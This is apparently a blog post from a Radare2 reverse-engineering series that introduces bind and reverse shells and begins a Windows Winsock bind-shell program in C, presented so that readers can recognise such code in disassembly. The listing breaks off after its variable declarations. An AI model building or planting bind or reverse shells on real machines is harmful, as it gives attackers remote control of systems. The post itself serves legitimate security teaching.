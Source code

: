 ```yaml
---
layout: post
title:  Reverse engineering x64 binaries with Radare2 - 18 (Bind and reverse shells)
tags: reversing c radare
image: '/images//radare2/radare2_18.png'
date: 2020-06-13 15:01:35 -0700
---
```


#### "Shells" 

Today I wanto to introduce a small and simple idea, to complement what we've been learning on these past posts. 

We've been emulating protocols as well as defining new protocols ourselves, that's nice but what if we don't want no protocol at all, can we just dump a file or process output to a socket and make the whole thing more " automatic "

Actually yes, processes (input and output) can get "sent" over network sockets in both linux and windows systems. Bind and reverse shells are common concepts among the hacking lands.

So in this post I do not intend to teach you advanced reverse engineering conceptes or new radare2 features I just want to introduce you to the bind/reverse shell code and operation so you can implement it yourself or quickly identify it on the disasm. 

#### The bind shell 

What is a bind shell? Again when we talk about bind/reverse shells in terms of pentesting/hacking/exploiting and such a bind shell is a program or a piece of code that opens a port on the machine where it is executed and starts accepting connections there, once the client connection is accepted the program will provide "the client" with a _remote_ command line interface.

Shells like the bind-shell are used in pentesting and hacking in general to take over remote machines. bind/reverse shells can be used as the _payload_ of an exploit "weaponizing" it, so when it kicks in the "hacker" will get control of the machine. That is an easy but at the same time fundamental concept, you really need to have this very clear as if you are a pentester you'll always want to get a shell on the remote machine, that'll be one of your main goals for sure.

Plenty of bind / reverse shell shellcode is available online, as you already know we can insert that shellcode inside a simple C program  using the trick we previously showed, we can also generate som shellcode in many formats using platforms like the metasploit framework and such, but the key thing here is that we should be able to write our bind/reverse shell code ourselves and especially we must be able to identify it and understand it when reversing a program.

The following program is an example of a BIND shell written in C using the WINSOCK and WINDOWS libraries:
```C 
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <stdio.h>
#include <windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib,"ws2_32")

void doShell(){

    // needed data structures
    WSADATA wsaData;
    SOCKET s1, s2;
    struct sockaddr_in hax;
    char ip_addr[16];
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;
    //command we want to run, any other command line program could be used, but we want to prompt a shell.
```
